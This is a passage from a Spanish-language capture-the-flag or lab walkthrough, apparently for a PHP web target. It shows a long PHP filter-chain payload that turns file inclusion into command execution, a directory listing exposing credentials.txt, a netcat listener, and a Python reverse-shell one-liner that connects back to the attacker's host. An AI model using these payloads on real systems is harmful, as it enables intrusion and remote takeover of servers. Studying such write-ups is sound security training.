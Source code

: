 ```
t.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```

Copiamos eso y lo metemos despues del igual de la siguiente manera...

```
URL = http://<IP>/index.php?cmd=ls -la&file=<CONTENT_GENERATE>
```

Info:

```
total 46008
drwxr-xr-x 1 root root     4096 Nov 11 20:24 .
drwxr-xr-x 1 root root     4096 Nov 12 08:17 ..
-rw-r--r-- 1 root root 15677440 Nov 11 20:23 credentials.txt
drwxr-xr-x 2 root root     4096 Nov 10 06:57 docencia
drwxr-xr-x 2 root root     4096 Nov 10 06:51 images
-rw-r--r-- 1 root root    22348 Nov 10 07:20 index.php
-rw-r--r-- 1 root root 31354880 Nov 11 20:24 pagina_web.tar
drwxr-xr-x 2 root root     4096 Nov 10 06:51 scripts
drwxr-xr-x 2 root root     4096 Nov 10 16:07 sobre-mi
-rw-r--r-- 1 root root    26888 Nov 10 06:51 styles.css
�
P�����
```

Vemos que funciona, por lo que ahora vamos a intentar crearnos una `reverse shell` de la siguiente forma:

Primero nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Ahora ejecutaremos el siguiente comando para crearnos la `shell`:

```
URL = http://<IP>/index.php?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")' &file=<CONTENT_GENERATE>
```
